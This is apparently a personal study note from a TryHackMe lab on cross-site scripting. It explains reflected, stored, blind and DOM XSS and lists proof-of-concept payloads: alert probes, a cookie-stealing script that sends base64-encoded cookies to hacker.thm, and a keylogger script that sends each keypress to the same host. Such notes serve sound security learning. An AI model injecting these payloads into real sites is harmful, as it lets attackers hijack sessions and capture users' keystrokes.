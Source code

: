 ![](Pasted%20image%2020241112155322.png)

# [Introduction]()

In XSS attacker injects malicious JavaScript code in a vulnerable web server. There are two types of XSS.

- Reflected XSS
- Stored XSS

## [Reflected  XSS]()

In this scenario, attacker sends the payload to via URL and response is reflected back. 

![](Pasted%20image%2020241112181518.png)

## [Stored XSS]()

In this payload is stored in the database and website uses it every from user load the page from the data making the attack persistent.

![](Pasted%20image%2020241114200253.png)

## [Blind XSS]()

In this attack, attacker cannot see the payload working on the website.

## [DOM XSS]()

Look for variables that can be exploited in the JS code from the URL

![](Pasted%20image%2020241114204112.png)

This code take num variable from URL and appending to img tag this can be exploited by changing the URL to below

![](Pasted%20image%2020241114205055.png)
 
![](Pasted%20image%2020241114205018.png)

# [POC]()

## [General usage]()

After putting JavaScript code to web page's input field if the page reacts as per the code then the web page is vulnerable to XSS

```
<script>alert('XSS');</script>
```

```
<img src="123" onerror="alert('test')" />
```

## [Session stealing]()

Most users details are stored in the form of cookies. This can be accessed by document.cookie. btoa function convert parameter to base64 and fetch function generating request to attackers webserver, giving access to users cookies when they visit infected page.

```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

## [Key Logger]()

Below is similar version of JS code that sends base64 to attacker of the key - on key press.

```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```


# [References]()

- https://tryhackme.com/r/room/xss
- https://www.youtube.com/watch?v=EubBgig6qYs